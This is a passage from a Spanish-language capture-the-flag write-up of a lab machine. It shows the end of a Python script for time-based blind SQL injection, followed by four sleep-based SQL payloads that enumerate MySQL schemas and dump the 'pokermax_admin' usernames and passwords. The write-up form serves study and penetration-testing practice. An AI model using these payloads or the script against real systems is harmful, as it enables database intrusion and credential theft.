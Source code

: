```python
            }
                
            p1.status(post_data['username'])

            time_start = time.time()
            r = requests.post(main_url, data=post_data, headers=headers)
            time_end = time.time()

            if time_end - time_start > 0.5:
                extracted_info += character
                p2.status(extracted_info)
                break

    p1.success("Inyección SQL completada exitosamente")
    p2.success(extracted_info)


if __name__ == '__main__':

    time_sqli()
```

**Bases de datos**: ``information_schema, mysql , performance_schema , phpmyadmin , pokerleague,vip ``

- Para listar todas las bases de datos existentes: 
```sql
admin' and if(substr((select group_concat(schema_name) from information_schema.schemata),%d,1)='%s', sleep(0.5),1)-- -
```
- Para listas todas las tablas de una base de datos especifica:
```sql
admin' and if(substr((select group_concat(table_name) from information_schema.tables where table_schema='pokerleague'),%d,1)='%s', sleep(0.5),1)-- -
```
- Para listar todas las columnas de una tabla especifica:
```sql
admin' and if(substr((select group_concat(column_name) from information_schema.columns where table_schema='pokerleague' and table_name='pokermax_admin'),%d,1)='%s', sleep(0.5),1)-- -
```
- Para listar el contenido de una columna especifica:
```sql
admin' and if(substr((select group_concat(username,0x3a,password) from pokerleague.pokermax_admin),%d,1)='%s', sleep(0.5),1)-- -
```

----

Si nos dirigimos a la sección de ``Manage Players`` podremos ver todos los usuarios, entre ellos destaca el usuario Valenka que nos permite enviarle un correo. Si observamos la información de dicho correo veremos que nos da la ruta ``/vip-client-portfolios/?uri=blog`` por lo tanto accedemos a ella.

-------
### SMTP Service
